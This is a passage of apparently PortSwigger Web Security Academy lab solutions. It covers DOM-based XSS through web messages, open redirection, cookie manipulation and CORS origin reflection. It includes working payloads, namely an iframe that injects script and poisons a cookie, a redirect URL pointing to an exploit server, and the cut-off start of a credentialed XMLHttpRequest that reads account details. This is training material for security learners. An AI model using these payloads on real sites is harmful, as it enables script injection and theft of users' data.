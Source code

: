 The `switch` triggers the `load-channel` case, which assigns the `url` property of the message to the `src` attribute of the `ACMEplayer.element` `iframe`. However, in this case, the `url` property of the message actually contains our JavaScript payload.

As the second argument specifies that any `targetOrigin` is allowed for the web message, and the event handler does not contain any form of origin check, the payload is set as the `src` of the `ACMEplayer.element` `iframe`. The `print()` function is called when the victim loads the page in their browser.

### Lab: DOM-based open redirection

The blog post page contains the following link, which returns to the home page of the blog:

`<a href='#' onclick='returnURL' = /url=https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>`

The `url` parameter contains an open redirection vulnerability that allows you to change where the "Back to Blog" link takes the user. To solve the lab, construct and visit the following URL, remembering to change the URL to contain your lab ID and your exploit-server ID:

`https://your-lab-id.web-security-academy.net/post?postId=4&url=https://your-exploit-server-id.web-security-academy.net/`

### Lab: DOM-based cookie manipulation

1.  Notice that the home page uses a client-side cookie called `lastViewedProduct`, whose value is the URL of the last product page that the user visited.
2.  Go to the exploit server and add the following `iframe` to the body, remembering to replace `your-lab-id` with your lab ID:  
    `<iframe src="https://your-lab-id.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://your-lab-id.web-security-academy.net';window.x=1;">`
3.  Store the exploit and deliver it to the victim.

The original source of the `iframe` matches the URL of one of the product pages, except there is a JavaScript payload added to the end. When the `iframe` loads for the first time, the browser temporarily opens the malicious URL, which is then saved as the value of the `lastViewedProduct` cookie. The `onload` event handler ensures that the victim is then immediately redirected to the home page, unaware that this manipulation ever took place. While the victim's browser has the poisoned cookie saved, loading the home page will cause the payload to execute.

---

# [Cross-origin resource sharing](https://portswigger.net/web-security/cors) ([CORS](https://portswigger.net/web-security/cors))

### Lab: CORS vulnerability with basic origin reflection

1.  With your browser proxying through Burp Suite, turn intercept off then log in and access your account page.
2.  Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3.  Send the request to Burp Repeater, and resubmit it with the added header: `Origin: https://example.com`
4.  Observe that the origin is reflected in the `[Access-Control-Allow-Origin](https://portswigger.net/web-security/cors/access-control-allow-origin)` header.
5.  In your browser, go to the exploit server and enter the following HTML, replacing `$url` with your unique lab URL:  
    `<script>  
       var req = new XMLHttpRequest();  
       req.onload = reqListener;  
       req.open('get','$url/accountDetails',true);  
       req.withCredentials = true;  
       req.send();  
      